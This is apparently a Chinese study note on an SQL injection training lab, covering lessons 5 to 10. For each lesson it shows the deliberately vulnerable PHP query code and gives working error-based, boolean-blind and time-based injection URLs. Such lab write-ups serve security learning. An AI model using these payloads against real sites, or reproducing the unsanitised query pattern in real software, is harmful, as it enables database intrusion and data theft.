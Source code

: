 ```yaml
---
description: 注入结果反馈方法
---
```


# lesson5-lesson10

* source :

  ```php
  if(isset($_GET['id']))
  {
  $id=$_GET['id'];
  }
  ```

* sink:  

```php
// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

同lesson1, 这又是一个单引号闭合。

* output:

```php
	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    echo "</font>";
  }
	else 
	{
		echo '<font size="3" color="#FFFF00">';
		print_r(mysql_error());
		echo "</br></font>";	
		echo '<font color= "#0000ff" font size= 3>';	
	}
```

第五关开始， 这个地方保留了显错注入， 但是没有了联合注入， 登陆成功不现实数据库查处的任何字段\(You are in ...），可以利用这句话的存在与否进行布尔型盲注。



* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：

  * 时间
  * boolean

       

            index.php?id=1' and if\(\(substr\(user\(\),1,1\)='r'\),1,0\)--+



## lesson6

* sink

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

同lesson4，这里又是一个双引号闭合。

* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：

  * 时间

          index.php?id=1" and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+

  * boolean

    index.php?id=1" and if\(\(substr\(user\(\),1,1\)='r'\),1, 0\)--+

## lesson7

* sink

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

单引号闭合，加双重括号型的。

* output

```php
	if($row)
	{
  	echo '<font color= "#FFFF00">';	
  	echo 'You are in.... Use outfile......';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
		echo '<font color= "#FFFF00">';
		echo 'You have an error in your SQL syntax';
		//print_r(mysql_error());
		echo "</font>";  
	}
}
	else 
	{ 
		echo "Please input the ID as parameter with numeric value";
	}

```

看这里把\`mysql\_error\(\)注释掉了， 所以没有报错注入了。

* 盲注：

  * 时间

          index.php?id=1'\)\) and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+

  * boolean

    index.php?id=1'\)\) and if\(\(substr\(user\(\),1,1\)='r'\),1, 0\)--+

## lesson8

* sink

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result)；
```

这儿简单了， 单引号闭合。



* output

```php
	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```

这里多了注释，但是仍然可以通过显不显示\`You are in \`构造布尔型注入。



* 盲注：

  * 时间

          index.php?id=1' and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+

  * boolean

    index.php?id=1' and if\(\(substr\(user\(\),1,1\)='r'\),1, 0\)--+

## lesson9

* output

```php
    	echo '<font size="5" color="#FFFF00">';
    	echo 'You are in...........';
    	//print_r(mysql_error());
    	//echo "You have an error in your SQL syntax";
    	echo "</br></font>";
    	echo '<font color= "#0000ff" font size= 3>';
	
```

其他和lesson8完全一样， 就这里少注释一句。造成无法正常布尔注入，因为无论怎样都会显示\`You are in \`。



* 盲注：

  * 时间

          index.php?id=1' and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+

## lesson10

* sink

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

双引号闭合， 其他与lesson9相同。



* 盲注：

  * 时间

          index.php?id=1“ and if\(\(substr\(user\(\),1,1\)='r'\),sleep\(5\), 0\)--+


